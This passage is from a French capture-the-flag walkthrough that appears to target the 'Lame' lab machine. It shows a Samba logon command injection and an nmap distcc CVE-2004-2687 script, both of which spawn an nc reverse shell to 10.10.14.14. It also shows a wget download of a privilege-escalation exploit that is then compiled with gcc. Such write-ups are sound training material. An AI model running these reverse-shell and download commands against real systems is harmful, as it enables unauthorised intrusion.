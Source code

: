 Laissons maintenant exécuter notre exploit.

``logon "/=`nohup nc -nv 10.10.14.14 4444 -e /bin/bash`"``

Parfait, nous avons notre shell inversé et nous sommes root, aucune élévation de privilèges n'est nécessaire.

![Screenshot from 2021-04-26 14-11-18.png](../_resources/54d7e8fecd6b4d34afb8574d53090508.png)


## distccd v1 4.2.4

Essayons maintenant notre deuxième point d'entrée potentiel. Nous pouvons également utiliser le script nmap pour exploiter cette vulnérabilité, car nous savons qu'il est vulnérable à CVE 2004-2687.

Mettons en place notre écouteur

`nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -nv 10.10.14.14 4444 -e /bin/bash'"`

Nous avons obtenu notre shell inversé, mais nous ne sommes pas root, nous devrons donc faire une escalade des privilèges.


![Screenshot from 2021-04-27 09-29-34.png](../_resources/ae4a7e1e89f7417fa10f31ceff0d2ccf.png)

Laissez découvrir la version Linux.


![Screenshot from 2021-04-27 09-33-34.png](../_resources/3b54d174d85e409b9a7777b287cae747.png)

J'ai essayé quelques escalades de privilèges depuis exploitdb sans succès. Après avoir fouillé un peu dans Google, j'ai pu trouver une escalade de privilèges qui pourrait fonctionner.

La première étape consiste à configurer un serveur

`python -m SimpleHTTPServer 8090`

Maintenant, sur la machine cible, je vais télécharger l'exploit depuis exploitdb

`wget http://10.10.14.14:8090/8572.c`

Comme il s'agit d'un fichier C, nous devons le compiler en utilisant gcc.

`gcc 8572.c -o 8572`

Regardons l'utilisation avant d'exécuter le fichier.
